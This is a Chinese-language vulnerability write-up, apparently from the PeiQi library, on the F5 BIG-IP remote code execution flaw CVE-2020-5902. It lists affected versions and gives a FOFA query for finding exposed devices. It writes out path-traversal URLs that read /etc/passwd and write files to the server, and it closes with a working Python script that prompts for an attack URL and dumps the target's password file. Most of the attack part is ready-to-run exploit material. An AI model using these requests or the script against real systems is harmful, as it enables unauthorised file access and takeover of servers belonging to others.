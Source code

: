 ```yaml
---
title: F5 BIG-IP 远程代码执行漏洞 CVE-2020-5902
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - Web应用漏洞
 - F5 BIG-IP
---
```


# F5 BIG-IP 远程代码执行漏洞 CVE-2020-5902

## 漏洞描述

2020年07月03日， 360CERT监测发现 `F5` 发布了 `F5 BIG-IP 远程代码执行` 的风险通告，该漏洞编号为 `CVE-2020-5902`，漏洞等级：`严重`。

未授权的远程攻击者通过向漏洞页面发送特制的请求包，可以造成任意 Java 代码执行。进而控制 `F5 BIG-IP` 的全部功能，包括但不限于: 执行任意系统命令、开启/禁用服务、创建/删除服务器端文件等。该漏洞影响控制面板受影响，不影响数据面板。

## 漏洞影响

> [!NOTE]
>
> F5 BIG-IP 15.x: 15.1.0.4
>
> F5 BIG-IP 14.x: 14.1.2.6
>
> F5 BIG-IP 13.x: 13.1.3.4
>
> F5 BIG-IP 12.x: 12.1.5.2
>
> F5 BIG-IP 11.x: 11.6.5.2

## FOFA

> [!NOTE]
>
> title="BIG-IP&reg ;- Redirect"

## 漏洞复现

在 `tmshCmd` 的 `service`方法处理请求的时候，未对`command` 参数进行处理，直接调用 `WorkspaceUtils.runTmshCommand(cmd, request);` 方法执行命令，限制了执行`delete,create,list,modify`。

```java
if ("POST".equalsIgnoreCase(request.getMethod())) {
            String[] cmdArray = command.split(" ");
            String operation = cmdArray[0];
            String module = cmdArray[2];
            if (!ShellCommandValidator.checkForBadShellCharacters(command) && (operation.equals("create") || operation.equals("delete") || operation.equals("list") || operation.equals("modify")) && WHITELISTED_TMSH_MODULES.contains(module)) {
               try {
                  String[] args = new String[]{command};
                  Result result = Syscall.callElevated(Syscall.TMSH, args);
                  output = result.getOutput();
                  error = result.getError();
               } catch (CallException var11) {
                  logger.error(NLSEngine.getString("ilx.workspace.error.TmshCommandFailed") + ": " + var11.getMessage());
                  error = var11.getMessage();
               }
            } else {
               error = NLSEngine.getString("ilx.workspace.error.RejectedTmshCommand");
}
```

在 `fileRead` 的 `service`方法处理请求的时候，未对 `fileName` 参数进行处理，直接调用 `WorkspaceUtils.readFile(fileName);` 方法，进行文件读取。

![](/img/20210924015228446689.png)

在 `fileSave` 的 `service`方法处理请求的时候，未对 `fileName`，`content` 参数进行处理，直接调用 `WorkspaceUtils.saveFile(request);` 方法，进行文件上传。

![](/img/20210924015228882284.png)

[详情利用方式 https://github.com/jas502n/CVE-2020-5902](https://github.com/jas502n/CVE-2020-5902)

[详情利用方式 https://github.com/wx3514/CVE-2020-5902/blob/master/CVE-2020-5902.md](https://github.com/wx3514/CVE-2020-5902/blob/master/CVE-2020-5902.md)

#### 读取文件

**http://xxx.xxx.xxx.xxx/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd**

![](/img/20210924015229778848.png)

#### 写入文件

**http://xxx.xxx.xxx.xxx/tmui/login.jsp/..;/tmui/locallb/workspace/fileSave.jsp**

**POST: fileName=/tmp/test.txt&content=test**

读取文件 /tmp/test

![](/img/20210924015230076293.png)

成功写入文件

## 漏洞利用POC

```python
import requests
import sys
import json
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
    print('+  \033[34mVersion: F5 BIG-IP                                                \033[0m')
    print('+  \033[36m使用格式: python3 CVE-2020-5902.py                                  \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    version_url = target_url + "/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Accept-Language":"zh-CN,zh;q=0.9",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=version_url, timeout=10, verify=False, headers=headers)
        if "output" in response.text:
            print("\033[32m[o] 目标 {} 存在漏洞，响应为:\n{}\033[0m".format(target_url, json.loads(response.text)["output"]))
        else:
            print("\033[31m[x] 目标漏洞无法利用 \033[0m")

    except Exception as e:
        print("\033[31m[x] 目标漏洞无法利用 ,{}\033[0m".format(e))
        sys.exit(0)


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```

![](/img/20210924015230231017.png)

## 参考文章

https://mochazz.github.io/2020/07/11/F5-BIG-IP%E6%9C%AA%E6%8E%88%E6%9D%83RCE(CVE-2020-5902)/#%E6%9C%AA%E6%8E%88%E6%9D%83%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C